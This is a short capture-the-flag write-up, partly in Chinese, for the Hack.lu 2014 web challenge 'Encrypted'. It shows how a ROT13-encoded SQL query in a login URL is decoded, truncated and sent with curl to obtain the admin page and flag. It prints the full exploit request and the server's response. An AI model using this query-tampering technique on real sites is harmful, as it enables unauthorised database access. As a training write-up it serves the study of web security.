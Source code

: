 # Hack.lu 2014 Writeup

0x00 Web 50 Encrypted
---------------------

* * *

> Category: Web
> 
> Points: 50
> 
> Author: TheJH
> 
> Description:
> 
> Legend says there is a bank vault in Jamestown which cannot be broken
> 
> into. The only way inside is through an authentication process. Even
> 
> Jesse James and his companions failed to break the security of this
> 
> particular bank. Can you do it?
> 
> [https://wildwildweb.fluxfingers.net:1411/](https://wildwildweb.fluxfingers.net:1411/)

能看到一个登录表单，使用用户名a和密码b登录，看到了链接变成

```
https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60+JURER+%60anzr%60+%3D+%27n%27+NAQ+%60cnffjbeq%60+%3D+ZQ5%28%27o%27%29

```

* * *

```
In [22]: hackercodecs.rotx(hackercodecs.urlunquote(a),13)
Out[22]: u"query=SELECT+`name`+FROM+`users`+WHERE+`name`+=+'a'+AND+`password`+=+MD5('b')"

```

去掉后半部分，直接访问：

```
DeAdCaT___$ curl 'https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60'

```

* * *

```
<!DOCTYPE html>
<html>
  <head>
    <title>Encrypted Login</title>
  </head>
  <body>
    <h1>Encrypted Login</h1>
Hello admin! The flag is flag{nobody_needs_server_side_validation}.  </body>
</html>

```
